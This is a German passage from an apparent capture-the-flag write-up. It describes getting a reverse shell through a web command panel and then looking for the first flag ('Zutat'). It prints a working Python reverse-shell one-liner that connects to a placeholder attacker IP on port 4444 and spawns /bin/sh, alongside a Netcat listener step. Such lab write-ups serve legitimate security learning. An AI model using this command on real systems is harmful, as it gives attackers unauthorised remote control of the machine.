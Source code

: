 
### 🔁 Vorbereitung für die Reverse Shell

📍 **Angreifer-Seite (mein Rechner):**  
Ich habe mit Netcat auf meinem Rechner einen Listener gestartet:

[![](./screenshots/12.png)](./screenshots/12.png)

📍 **Zielseite (über das Command Panel):**  
Dann habe ich folgenden Befehl eingegeben:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("MY-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh"])'
```

📌 **Wichtig:** Die IP-Adresse (`MY-IP`) musste natürlich durch meine eigene lokale oder VPN-IP ersetzt werden.

[![](./screenshots/13.png)](./screenshots/13.png)

✅ **Ergebnis:**  
Ich erhielt erfolgreich eine Shell auf dem Zielsystem – **interaktiv und mit eingeschränkten Rechten**.

[![](./screenshots/14.png)](./screenshots/14.png)


## 🏁 Schritt 8: Erste Zutat (Flagge) finden

Nachdem ich eine funktionierende Reverse Shell hatte, konnte ich endlich das Zielsystem direkt durchsuchen und die erste Zutat finden:

[![](./screenshots/15.png)](./screenshots/15.png)